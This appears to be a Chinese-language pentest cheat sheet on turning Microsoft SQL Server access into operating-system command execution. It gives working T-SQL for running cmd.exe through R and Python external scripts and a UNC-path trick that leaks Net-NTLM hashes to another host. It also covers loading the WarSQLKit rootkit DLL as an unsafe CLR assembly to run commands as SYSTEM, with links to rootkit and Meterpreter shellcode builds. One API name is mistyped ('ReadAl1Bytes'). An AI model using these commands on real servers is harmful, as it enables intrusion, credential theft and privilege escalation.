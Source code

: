 	Machine Learning Services必须要在Python安装过程中选择
	必须启用外部脚本
	EXEC sp_configure 'external scripts enabled', 1
	RECONFIGURE WITH OVERRIDE
	重新启动数据库服务器
	用户拥有执行任何外部脚本权限
	MSSQL 2017加入了Microsoft机器学习服务，该服务允许通过MSSQL中sp_execute_external_script执行Python和R脚本
	R脚本执行命令
	sp_configure 'external scripts enabled'
	GO
	EXEC sp_execute_external_script
	@language=N'R',
	@script=N'OutputDataSet <- data.frame(system("cmd.exe
	/c dir",intern=T))'
	WITH RESULT SETS (([cmd_out] text));
	GO
	抓取Net-NTLM哈希
	@script=N'.libPaths("\\\\testhost\\foo\\bar");library("0mgh4x")'
  #### python脚本
  	exec sp_execute_external_script 
	@language =N'Python',
	@script=N'import sys
	OutputDataSet = pandas.DataFrame([sys.version])'
	WITH RESULT SETS ((python_version nvarchar(max)))
	执行命令
	exec sp_execute_external_script 
	@language =N'Python',
	@script=N'import subprocess
	p = subprocess.Popen("cmd.exe /c whoami", stdout=subprocess.PIPE)
	OutputDataSet = pandas.DataFrame([str(p.stdout.read(), "utf-8")])'
	WITH RESULT SETS (([cmd_out] nvarchar(max)))
  #### WarSQLKit
	WarSQLKit.dll: https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit/raw/master/WarSQLKit/bin/Debug/WarSQLKit.dll
	WarSQLKit_Compressed.dll: https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit/raw/master/WarSQLKit/bin/Debug/Confused/WarSQLKit.dll
	WarSQLKitMinimal.dll: https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit/raw/master/WarSQLKitMinimal/bin/Debug/WarSQLKitMinimal.dll
	Meterpreter CSharp (C#) Shellcode: https://github.com/EPICROUTERSS/Build-Meterpreter-CSharp-Shellcode
	Meterpreter CSharp（C#）Base64编码的Shellcode：https://github.com/EPICROUTERSS/Build-Encoded-Meterpreter-C-Shellcode
	OSCMDEXEC_CLR: https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_clr.sql
	获取WarSQLKit字节流
	var byteStream =BitConverter.ToString(File.ReadAl1Bytes(@"c:\WarSQLKit.dll")).Replace("-",""); 
	File.WriteAllText(@"C:\bytestream.txt",byteStream);
	导入
	CREATE ASSEMBLY [WarSQLKit]
	    AUTHORIZATION [dbo]
	    FROM 0x4d5a...[...]
	    WITH PERMISSION_SET = UNSAFE;
	GO
	创建存储过程
	CREATE PROCEDURE sp_cmdExec
	@Command [nvarchar](4000)
	WITH EXECUTE AS CALLER
	AS
	EXTERNAL NAME WarSQLKit.StoredProcedures.CmdExec
	GO
	执行命令
	EXEC sp_cmdExec 'whoami';
	以NT AUTHORITY\SYSTEM权限执行Windows命令
	EXEC sp_cmdExec 'whoami /RunSystemPriv';